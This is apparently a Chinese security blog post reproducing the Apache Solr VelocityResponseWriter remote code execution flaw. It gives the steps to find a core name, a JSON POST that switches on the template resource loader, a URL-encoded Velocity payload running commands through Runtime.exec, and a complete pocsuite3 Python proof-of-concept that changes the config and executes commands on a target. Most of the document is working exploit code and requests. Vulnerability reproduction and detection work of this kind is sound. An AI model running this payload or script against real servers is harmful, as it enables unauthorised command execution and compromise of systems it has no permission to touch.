 ```yaml
---
title:  apache_solr_via_velocity_template_rce复现
date: 2019-10-31 14:13:03
author: dylan
top: false
cover: false
password: 
categories: web安全
tags: 
    - solr
    - via_velocity_template
    - 漏洞复现
    - RCE
---
```

# 0x00 漏洞概述

Apache Solr 默认集成 VelocityResponseWriter 插件

该插件初始化参数中的 
`params.resource.loader.enabled` 
用来控制是否允许参数资源加载器在 `Solr` 请求参数中指定模版

该参数默认值是`False`，可以通过构造 POST 请求直接修改集合设置，

将`params.resource.loader.enabled `设置为` true`

然后构造GET请求来进行远程代码执行漏洞

# 0x01 影响范围

包括不限于最新版 8.2.0

# 0x02 漏洞复现
## 获取core name

访问Core Admin得到`core name`
![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20191031161555.png)

有的没有`Core Admin`按钮
直接访问 `url/solr/admin/cores?wt=json&indexInfo=false`

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20191031161914.png)

## 修改配置

访问   `url/solr/core name/config`  
查找 `solr.resource.loader.enabled` 是否为 `true`

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20191031162555.png)

如果为false，构造post请求，修改

```
{
  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
}
```

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20191031163002.png)

## 漏洞利用

```
url/solr/core name/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27whoami%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end
```

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20191031163326.png)

# 0x03 POC
```
#! python3
"""

@FileName: apache_solr_via_velocity_template_rce.py
@Author: dylan
@software: PyCharm 
@Datetime: 2019-10-31 14:54

"""
import json
from abc import ABC

from pocsuite3.api import Output, POCBase, register_poc, requests, logger


def get_core_name(url):
    url += "/solr/admin/cores?wt=json&indexInfo=false"
    res = requests.get(url, verify=False, timeout=30)
    core_name = list(json.loads(res.text)["status"])[0]
    return core_name


def update_config(path):
    headers = {
        'User-Agent': "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; AcooBrowser; .NET CLR 1.1.4322; "
                      ".NET CLR 2.0.50727)",
        'Content-Type': 'application/json'
    }
    data = """
    {
        "update-queryresponsewriter": {
            "startup": "lazy",
            "name": "velocity",
            "class": "solr.VelocityResponseWriter",
            "template.base.dir": "",
            "solr.resource.loader.enabled": "true",
            "params.resource.loader.enabled": "true"
        }
    }
    """
    res = requests.post(path, data=data, headers=headers, verify=False, timeout=30)
    return res


def send_payload(path, core_name, cmd):
    headers = {
        'User-Agent': "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; AcooBrowser; .NET CLR 1.1.4322; "
                      ".NET CLR 2.0.50727)"
    }
    payload = path + "/solr/" + core_name + "/select?q=1&&wt=velocity&v.template=custom&v.template.custom" \
                                            "=%23set(" \
                                            "$x=%27%27)+%23set($rt=$x.class.forName(" \
                                            "%27java.lang.Runtime%27))+%23set(" \
                                            "$chr=$x.class.forName(%27java.lang.Character%27))+%23set(" \
                                            "$str=$x.class.forName(" \
                                            "%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(" \
                                            "%27" + cmd + "%27))+$ex.waitFor(" \
                                                          ")+%23set($out=$ex.getInputStream())+%23foreach($i+in+[" \
                                                          "1..$out.available(" \
                                                          ")])$str.valueOf($chr.toChars($out.read()))%23end"
    res = requests.get(payload, headers=headers, verify=False, timeout=30)
    return res


class DemoPOC(POCBase, ABC):
    vulID = "0"  # ssvid ID 如果是提交漏洞的同时提交 PoC,则写成 0
    version = "3.0"  # 默认为1
    author = "dylan"  # PoC作者的大名
    vulDate = "2019/10/31"  # 漏洞公开的时间,不知道就写今天
    createDate = "2019/10/31"  # 编写 PoC 的日期
    updateDate = "2019/10/31"  # PoC 更新的时间,默认和编写时间一样
    references = ["https://github.com/wyzxxz/Apache_Solr_RCE_via_Velocity_template"]  # 漏洞地址来源,0day不用写
    name = "apache_solr_via_velocity_template_rce"  # PoC 名称
    appPowerLink = ""  # 漏洞厂商主页地址
    appName = "solr"  # 漏洞应用名称
    appVersion = "<8.2.0"  # 漏洞影响版本
    vulType = "RCE"  # 漏洞类型,类型参考见 漏洞类型规范表
    desc = """
        
    """  # 漏洞简要描述
    samples = [""]  # 测试样列,就是用 PoC 测试成功的网站
    install_requires = []  # PoC 第三方模块依赖，请尽量不要使用第三方模块，必要时请参考《PoC第三方模块依赖说明》填写
    pocDesc = """
    
    """

    def _verify(self):
        # 验证代码
        result = {}
        core_name = get_core_name(self.url)

        path = self.url + "/solr/" + core_name + "/config"
        res = requests.get(path, verify=False, timeout=30)
        if ('"solr.resource.loader.enabled":"true"' not in res.text) or (
                '"params.resource.loader.enabled":"true"' not in res.text):
            res = update_config(path)
            if res.status_code != 200:
                return self.parse_output(result)

        cmd = "echo hello"
        res = send_payload(self.url, core_name, cmd)
        # print(res.text)
        if res.status_code == 500:
            cmd = "whoami"
            res = send_payload(self.url, core_name, cmd)
            if res.status_code == 200:
                result['VerifyInfo'] = {}
                result['VerifyInfo']['URL'] = self.url
                result['VerifyInfo']['whoami'] = res.text
        elif "hello" in res.text and "responseHeader" not in res.text:  # result是返回结果
            result['VerifyInfo'] = {}
            result['VerifyInfo']['URL'] = self.url
            result['VerifyInfo']['echo hello'] = res.text
        return self.parse_output(result)

    def _attack(self):
        # 攻击代码
        return self._verify()

    def parse_output(self, result):
        output = Output(self)
        if result:
            output.success(result)
        else:
            output.fail("Internet nothing returned")
        return output


# 注册 DemoPOC 类
register_poc(DemoPOC)

```


# 参考文章
[Apache_Solr_RCE_via_Velocity_template: Apache_Solr_RCE_via_Velocity_template](https://github.com/wyzxxz/Apache_Solr_RCE_via_Velocity_template)